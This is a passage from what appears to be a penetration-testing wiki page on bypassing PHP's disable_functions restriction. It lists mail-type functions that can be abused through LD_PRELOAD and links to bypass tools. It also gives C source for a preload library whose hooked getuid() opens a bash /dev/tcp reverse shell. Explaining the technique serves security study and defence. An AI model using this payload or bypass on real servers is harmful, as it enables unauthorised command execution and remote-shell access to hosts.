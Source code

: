 {% hint style="warning" %}
You may be thinking that just in the same way we have overwritten `open_basedir` configuration we can **overwrite `disable_functions`**. Well, try it, but it won't work, apparently **`disable_functions` can only be configured in a `.ini` php** configuration file and the changes you perform using PHP\_VALUE won't be effective on this specific setting.
{% endhint %}

## disable\_functions Bypass

If you manage have PHP code executing inside a machine you probably want to go to the next level and **execute arbitrary system commands**. In this situation is usual to discover that most or all the PHP **functions** that allow to **execute system commands have been disabled** in **`disable_functions`.**\
So, lets see how you can bypass this restriction (if you can)

### Automatic bypass discovery

You can use the tool [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) and it will indicate you which function (if any) you can use to **bypass** **`disable_functions`**.

### Bypassing using other system functions

Just return to the beginning of this page and **check if any of the command executing functions isn't disabled and available in the environment**. If you find just 1 of them, you will be able to use it to execute arbitrary system commands.

### LD\_PRELOAD bypass

It's well known that some functions in PHP like `mail()`are going to **execute binaries inside the system**. Therefore, you can abuse them using the environment variable `LD_PRELOAD` to make them load an arbitrary library that can execute anything.

#### Functions that can be used to bypass disable\_functions with LD\_PRELOAD

* **`mail`**
* **`mb_send_mail`**: Effective when the `php-mbstring` module is installed.
* **`imap_mail`**: Works if `php-imap` module is present.
* **`libvirt_connect`**: Requires the `php-libvirt-php` module.
* **`gnupg_init`**: Utilizable with the `php-gnupg` module installed.
* **`new imagick()`**: This class can be abused to bypass restrictions. Detailed exploitation techniques can be found in a comprehensive [**writeup here**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/).

You can [**find here**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) the fuzzing script that was used to find those functions.

Here is a library you can compile to abuse the `LD_PRELOAD` env variable:
```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
unsetenv("LD_PRELOAD");
system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
return 1;
}
```
#### Bypass using Chankro
